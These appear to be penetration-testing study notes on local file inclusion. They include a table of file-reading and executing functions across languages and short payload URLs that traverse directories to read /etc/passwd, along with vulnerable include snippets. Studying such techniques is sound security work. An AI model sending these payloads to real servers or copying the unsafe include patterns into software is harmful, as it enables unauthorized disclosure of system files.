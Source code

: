 ```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```
Use to render local or remote files and URLs.
## Read vs Execute
|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|`file_get_contents()`|✅|❌|✅|
|`fopen()`/`file()`|✅|❌|❌|
|**NodeJS**||||
|`fs.readFile()`|✅|❌|❌|
|`fs.sendFile()`|✅|❌|❌|
|`res.render()`|✅|✅|❌|
|**Java**||||
|`include`|✅|❌|❌|
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.Partial()`|✅|❌|❌|
|`@Html.RemotePartial()`|✅|❌|✅|
|`Response.WriteFile()`|✅|❌|❌|
|`include`|✅|✅|✅|

# File Disclosure 
## LFI
```URL
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
### File Traversal
If the function users the whole path you can use the absolute path.
Else you'll need to do the relative path 
```url 
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```
### Filename Prefix
```php
include("lang_" . $_GET['language']);
```
File goes from `lang_../.....`
Need to use the relative path 
### Second-Order Attacks
Web applications may allow us to download our avatar through a URL like `/profile/$username/avatar.png`. May be able to grab `../../../../../etc/passwd` in the avatar photo.
